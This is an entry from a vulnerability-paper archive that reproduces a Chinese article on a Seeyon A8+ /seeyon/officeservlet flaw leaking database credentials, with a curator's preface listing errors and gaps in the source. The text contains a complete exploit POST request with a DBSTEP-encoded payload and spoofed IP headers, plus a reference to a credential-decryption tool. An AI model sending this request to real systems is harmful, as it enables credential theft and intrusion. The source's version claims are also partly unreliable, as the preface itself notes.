




# 致远Seeyon A8+ officeservlet配置读取/数据库凭据泄漏

## 条目说明

- 对象与具体问题：致远Seeyon A8+；officeservlet配置读取/数据库凭据泄漏
- 版本、配置及部署条件：正文影响V7.0 SP1–SP3，前言却称全版本
- 认证与权限前提：样本含JSESSIONID和伪造IP头，必要性未明
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 已按原文中的具体接口、源码或上下文直接更正产品、根因或修复说明；未知版本和未经证明的影响仍明确保留为待核实。
- 产品介绍严重错误：把致远A8+称为Inspur企业级服务器旗舰硬件，与OA软件不符
- 全版本与V7.0 SP1–SP3矛盾；200/DBSTEP接口存在不能确认泄漏
- HTTP缺头体空行，DBSTEP编码字段未解码解释目标路径；解密依赖公众号获取JAR，无源码/工具链接
- 实际配置/凭据内容仅截图；须回厂商原资料核产品/范围

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/nbnqAv6pKId1uzW3F2znJg)

**0x01 阅读须知**

**凯撒安全实验室的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他！！！**

**0x02 漏洞原理**

致远 A8+ 是协同办公软件，不是 Inspur 服务器硬件。本文介绍数据库配置读取的历史示例；后文列举 V7.0 SP1–SP3，不能据此断言所有版本受影响。具体配置内容与可读范围仍需响应证据。


**0x03 漏洞利用**

影响版本：

致远 A8+（V7.0） SP1-SP3

**poc:**

**漏洞利用点为：/seeyon/officeservlet 接口，当访问接口时 响应值为 200 且出现如下响应体时，基本可认定该漏洞存在。**



**exp：**

```http
POST http://xxxxx/seeyon/officeservlet HTTP/1.1
Host: xxxxx
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=98FCAEBB95CCBEB2C7209BEF7EAA7B3E; loginPageURL=
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 350
DBSTEP V3.0     285             0               0              
RECORDID=wLoi
CREATEDATE=wLehP4whzUoiw=66
originalFileId=wLoi
needReadFile=yRWZdAS6
originalCreateDate=wLehP4whzUoiw=66
OPTION=LKDxOWOWLlxwVlOW
TEMPLATE=qf85qf85qfDfeazQqAzvcRevy1W3eazvNaMUySz3d7TsdRDsyaM3nYli
COMMAND=BSTLOlMSOCQwOV66
affairMemberId=wLoi
affairMemberName=wLoi

```

**打入 exp** 



****成功获取到数据库账号密码：/1.0/YmNtdTMxMjhB** 但密码进行了加密，需配合工具 PassDecode-jar 对密文进行解密**



  解密后，数据库成功连接：



关注公众号后台回复：20230729 获取解密工具

零日 / 一日 漏洞探讨加 Seven_-0928 、banxor9  

本实验室接受正规站点的授权渗透测试服务。如你的公司业务有 Web 渗透测试，高级渗透测试，红蓝对抗，黑客溯源，Java 代码审计等需求可联系以下微信进行商务洽谈：Xud330327

同时欢迎各位师傅加入 HW 闲聊吹水群（2000 人群）

****


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
